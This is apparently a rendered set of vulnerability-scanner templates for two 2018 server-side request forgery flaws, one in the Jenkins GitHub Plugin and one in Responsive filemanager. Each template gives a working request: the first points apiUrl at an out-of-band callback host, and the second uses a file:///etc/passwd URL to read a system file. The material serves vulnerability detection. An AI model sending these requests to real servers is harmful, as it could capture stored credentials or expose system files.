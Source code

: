 
# Jenkins GitHub Plugin \<=1.29.1 - Server-Side Request Forgery

## Description

- Jenkins GitHub Plugin 1.29.1 and earlier is susceptible to server-side request forgery via GitHubTokenCredentialsCreator.java, which allows attackers to leverage attacker-specified credentials IDs obtained through another method and capture the credentials stored in Jenkins.

- severity - high
- tags - cve,cve2018,jenkins,ssrf,oast,github

## Requests

- Method - GET

### URL

- {{BaseURL}}/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.github.config.GitHubTokenCredentialsCreator/createTokenByPassword?apiUrl=http://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Responsive filemanager 9.13.1 Server-Side Request Forgery

## Description

- Responsive filemanager 9.13.1 is susceptible to server-side request forgery in upload.php via the url parameter.
- severity - critical
- tags - cve,cve2018,ssrf,lfi,packetstorm,edb

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/filemanager/upload.php
  - fldr=&url=file:///etc/passwd
